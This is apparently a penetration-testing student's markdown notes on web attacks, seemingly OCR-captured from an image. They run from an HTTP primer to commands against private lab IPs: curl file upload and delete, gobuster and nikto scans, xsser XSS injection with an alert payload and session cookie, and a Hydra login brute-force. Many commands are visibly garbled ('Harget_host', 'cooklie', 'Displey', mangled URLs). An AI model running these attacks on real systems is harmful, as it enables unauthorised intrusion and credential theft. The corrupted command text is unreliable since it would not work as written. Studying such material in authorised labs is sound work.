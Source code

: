 - Website
- Web Server
- Off-Premise Hosting 

### HTTP Protocol 
- Headers
- Requests
- Response
- Browsers
- Sessions

### Requests
- Client
- Interacts with Server 
+ Methods 
	+ GET 
	+ HEAD 
	+ POST 
	+ PUT 
	+ DELETE 
	+ CONNECT 
	+ OPTIONS 
	+ TRACE 
	+ PATCH 
+ User-Agent

### Response 
+ Server 
+ Sends Resources 
+ Status Codes 
	+ 200 
	+ 302 
	+ 404 
	+ etc

- Browsers

- Sessions
- Cookies
- HTTPS

> Reading More:
	[[How Protocols Works and How to Decrypt Most of Them]]

##  Web and HTTP Protocol 

```bash
curl -I 192.168.55.2

curl -X OPTIONS 192.168.55.2

curl -X POST 192.168.55.2 -d "name=John&password=password" -v

curl 192.168.55.2/uploads/ --upload-file hello.txt

curl -X DELETE 192.168.55.2/uploads/hello.txt
```

## Directory Enumeration with Gobuster


```bash
gobuster dir -u http://192.25.36.1 -w /usr/share/wordlists/dirb/common.txt -b 463,404 -x .xml,.php -r
```


## Directory Enumeration with BurpSuite

![[Pasted image 20230718195920.png]]
![[Pasted image 20230718195935.png]]

## Scanning Web Application with Nikto

```bash
nikto

nikto -h http://192.168.25.2

nikto -h http://192.158.197.7/index.php/Ipageasrtitrary-file-inclusion.php -Tuning 5 -Displey V -output nikto.html -Format htm
```

##  XSS Attack with XSSer 
```bash
xsser --url "http://192.23.148.3/index.php?page=dns-Lookup.php" -p "Harget_host=Xss&dns-lookup-php&submit=put&tonsLookup=DNS"

xsser --url "http://192.23.148.3/index.php?page=dns-Lookup.php" -p "Harget_host=Xss&dns-lookup-php&submit=put&tonsLookup=DNS" --auto

xsser --url "http://192.23.148.3/index.php?page=dns-Lookup.php" -p "Harget_host=Xss&dns-lookup-php&submit=put&tonsLookup=DNS" -Fp "<script>alert(1);</script>"

```

## Authenticated XSS Attack with XSSer 

```bash
xsser --url 'http://192.212.191.3/htalet.php rstnamesXSSElastnamemschaekformmsubmit' --cooklie="security lavel=8; PHPSESSID=agbnSeogtidt37dtteqe7"

```

## Attacking HTTP Login Form with Hydra 

```bash
-hydra -L users -P passwords 192.107.115.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid"
```

## Attacking Basic Auth with Burp Suite 


## Attacking HTTP Login Form with ZAProxy 